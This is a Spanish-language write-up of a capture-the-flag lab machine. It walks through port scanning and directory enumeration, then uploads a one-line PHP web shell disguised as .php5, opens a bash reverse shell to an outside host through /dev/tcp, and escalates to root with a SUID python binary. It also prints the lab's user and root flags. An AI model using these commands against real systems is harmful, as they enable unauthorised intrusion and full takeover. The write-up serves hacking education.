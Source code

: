 # Summary
- IP: 10.10.233.124
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Apache httpd 2.4.29

# Recon

- Escaneo básico de puertos:
```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.233.124 -oG allPorts
```

- Escaneo profundo de puertos abiertos encontrados:
``` 
$sudo nmap -p22,80 -sCV 10.10.233.124 -oN targeted
```

- Búsqueda de directorios web con gobuster:
```
$gobuster dir -u http://10.10.233.124/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt
```

- Encontramos un directorio llamado /panel/ el cual nos permite subir archivos; intentamos hacer una reverse shell con un archivo PHP pero no admite subir archivos .php; al parecer solo filtra archivos php, por lo que subimos un archivo "backdoor.php5" con una linea que nos permite ejecutar mediante el link el parámetro "cmd":

``` 
<?php echo passthru($_GET["cmd"]); ?> 
```

- Ya subido el archivo, lo abrimos desde el directorio "/uploads" y ya podremos ejecutar comandos desde el link con el parámetro "cmd", aquí entablamos una reverse shell básica:

``` 
http://10.10.233.124/uploads/backdoor.php5?cmd=bash -c "bash -i >%26 /dev/tcp/10.18.101.123/443 0>%261"
```


- Accedemos a la máquina como usuario ww-data, hacemos tratamiento de la tty:
```
ww-data$script /dev/null -c bash
CTRL+Z
$stty raw -echo;fg
$reset xterm
$export TERM=xterm
$export SHELL=bash
```

- Encontramos la flag de usuario:

# USER FLAG: THM{y0u_g0t_a_sh3ll}

-  Escalación de privilegios; buscamos archivos con permisos SUID:
```
find / -perm -4000 2>/dev/null | grep -v snap
```

- Vemos que el binario "python" cuenta con permisos SUID, buscamos en GTFOBINS alguna forma de escalar privilegios con esta información, y encontramos que ejecutando el binario python de la siguiente forma sirve para realizar la escalación de privilegios:
```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

- Encontramos la flag de root:

# ROOT FLAG: THM{pr1v1l3g3_3sc4l4t10n}
